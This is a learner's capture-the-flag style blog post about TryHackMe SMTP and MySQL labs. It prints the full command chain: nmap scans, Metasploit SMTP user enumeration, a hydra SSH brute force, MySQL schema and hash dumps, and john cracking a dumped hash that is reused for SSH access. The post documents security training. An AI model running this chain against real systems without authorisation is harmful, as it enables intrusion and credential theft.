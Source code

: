 ```yaml
---
title: Day 17
date: 2022-04-30
layout: post.njk
---
```


{{ page.date.toDateString }}

I'm getting an early jump on doing this today. Hopefully I can finish the whole module.

For task 2 for SMTP were going to use metasploit to enumerate the users available on the server using the [smtp_version](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/smtp/smtp_version.md). Its my first time using metasploit in THM so it should be interesting.


First I ran my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 12:55 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>
>`Host is up (0.00058s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT   STATE SERVICE`
>
>`22/tcp open  ssh`
>
>`25/tcp open  smtp`
>
>`MAC Address: 02:1C:AF:59:C1:05 (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.32 seconds`

The I ran the following commands in metasploit:

>`msfconsole`
>
>`smtp_version`
>
>`use auxiliary/scanner/smtp/smtp_version`
>
>`set RHOSTS <ip>`
>
>`run`
>
>`[+] <ip>     - <ip>:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a`
>
>`[*] <ip>      - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`
>
>`search smtp_enum`
>
>`use auxiliary/scanner/smtp/smtp_enum`
>
>`set RHOSTS <ip>`
>
>`set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt`
>
>`run`
>
>`[*] <ip>      - <ip>  Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)`
>
>`[+] <ip>       - <ip>  Users found: administrator`
>
>`[*] <ip>       - Scanned 1 of 1 hosts (100% complete)`
>
>`[*] Auxiliary module execution completed`

So now we know we have a user name: `administrator` on the system and we are going to use [hydra](https://www.kali.org/tools/hydra/) to brute force it.

So I ran:

>'hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.221.111 ssh`

Then I ssh'ed in and got the flag!

Last one in this module: MySQL

MySQL is a Relational Database Management System (RDMS).

MySQL uses a client server model and can run on Linux and Windows.

First in the exercise it gives us the credentials `root:password`.

I run my nmap scan:
>`nmap -sS <ip> -p 1-10000`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-30 13:30 BST`
>
>`Nmap scan report for <ip>.eu-west-1.compute.internal (<ip)`
>`Host is up (0.0011s latency).`
>
>`Not shown: 9998 closed ports`
>
>`PORT     STATE SERVICE`
>
>`22/tcp   open  ssh`
>
>`3306/tcp open  mysql`
>`MAC Address: 02:52:51:2B:7F:0F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds`

I verified that I could connect to to mysql using the client:
>`mysql -h <ip> -u root -p`

Then I moved into metasploit:
>`msfconsle`
>
>`search mysql_sql`
>
>`use auxiliary/admin/mysql/mysql_sql`

I then set all the options for RHOST, USERNAME, and PASSWORD. If you run without setting the SQL option it runs `select version()`. After I ran I got results back for that and I changed SQL to `show databases` and I got back the databases on the system.
>`msf5 auxiliary(admin/mysql/mysql_sql) > run`
>
>`[*] Running module against <ip>`
>
>`[*] <ip>:3306 - Sending statement: 'show databases'...`
>`[*] <ip>:3306 -  | information_schema |`
>`[*] <ip>:3306 -  | mysql |`
>`[*] <ip>:3306 -  | performance_schema |`
>`[*] <ip>:3306 -  | sys |`
>`[*] Auxiliary module execution completed`

I then used `auxiliary/scanner/mysql/mysql_schemadump`  to dump the various table schemas and `auxiliary/scanner/mysql/mysql_hashdump` to dump the password hashes.

In the list of password hashes there was: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18` so I put that in a text file called `hash.txt` and ran:
>`john hash.txt`

and got: `doggie           (carl)`

I then reused those credentials for ssh and was able to get the final flag.

This module was great just like the first one. I got exposure to a lot of tools and started to get the basics of metasploit down. I think metasploit is kind of looked down upon because it it kind of a crutch and does a lot of work for you without understanding what is going on. For now though Its helpful to use.

I think one of the big things I learned from these is that an attack path usually invovles some pivots. You may exploit some service that gives you some info that you use with another service, which leads you to more info and maybe the ability to finally gain a shell.

Here a couple extra links for more reading:
[VPN exploits](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
[Common Exploits](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)

Happy Hacking.